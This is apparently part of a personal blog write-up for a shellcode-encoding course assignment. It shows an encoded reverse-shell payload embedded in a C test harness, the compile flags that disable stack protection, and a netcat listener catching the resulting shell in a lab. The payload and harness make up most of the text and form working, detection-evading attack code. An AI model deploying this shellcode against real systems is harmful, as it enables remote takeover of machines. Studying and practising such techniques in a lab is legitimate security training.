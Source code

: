![compile](https://bohansec.com/assets/assignmet4-2.png "compile")

The shellcode doesn't contain "\x00" or other undesired bad characters, so we can proceed to test the shellcode in a C program. A test program written in C is being used to test the shellcode:

{% highlight js %}
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x29\x5e\x80\x2e\x05\x80\x36\xbb\x8d\x7e\x01\x31\xc0\xb0\x01\x31\xdb\x8a\x1c\x06\x80\xf3\xcc\x75\x16\x8a\x5c\x06\x01\x88\x1f\x80\x2f\x05\x80\x37\xbb\x47\x04\x02\xeb\xe7\xe8\xd2\xff\xff\xff\x8f\xcc\x80\xcc\x8f\xcc\x65\xcc\x8f\xcc\x77\xcc\x8f\xcc\x6e\xcc\x8f\xcc\x52\xcc\x8f\xcc\x49\xcc\xe2\xcc\x08\xcc\xe1\xcc\xbf\xcc\x0d\xcc\xbe\xcc\x0f\xcc\xbf\xcc\x7b\xcc\x40\xcc\x37\xcc\x82\xcc\x37\xcc\x7d\xcc\x0f\xcc\xbd\xcc\x8f\xcc\x80\xcc\x10\xcc\x89\xcc\x7b\xcc\x40\xcc\xf7\xcc\xc7\xcc\x51\xcc\x8f\xcc\x65\xcc\x37\xcc\x4d\xcc\xe2\xcc\x08\xcc\xd6\xcc\xbf\xcc\xf1\xcc\xd8\xcc\x80\xcc\x18\xcc\x78\xcc\x38\xcc\xe2\xcc\xd8\xcc\xaf\xcc\xec\xcc\xe2\xcc\xd6\xcc\xbe\xcc\x37\xcc\x5f\xcc\x0e\xcc\xe2\xcc\x7b\xcc\x40\xcc\x8f\xcc\x80\xcc\xf0\xcc\xd8\xcc\x99\xcc\x99\xcc\xcd\xcc\xd8\xcc\xd8\xcc\x99\xcc\xde\xcc\xd7\xcc\xda\xcc\x37\xcc\x5d\xcc\xf0\xcc\x37\xcc\x5e\xcc\xed\xcc\x37\xcc\x5f\xcc\x10\xcc\xb5\xcc\x7b\xcc\x40\xcc\xdd\xdd";

int main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}

{% endhighlight %}

### Step4 - Compile the shellcode in the test program and test it

{% highlight js %}
kali@kali:~/Desktop/SLAE-Assignments/assignment4$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
kali@kali:~/Desktop/SLAE-Assignments/assignment4$ ./shellcode 
Shellcode Length:  228
{% endhighlight %}

{% highlight js %}
kali@kali:~$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.200.136] from (UNKNOWN) [192.168.200.136] 48498
ls
Insertion-Encoder.py
Screenshot 2020-09-06 00:05:44.png
compile.sh
decoder
decoder.nasm
decoder.o
encoder.py
shellcode
shellcode.c
whoami
kali
id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),117(bluetooth),131(scanner)
date
Sun Sep  6 00:53:11 EDT 2020
{% endhighlight %}

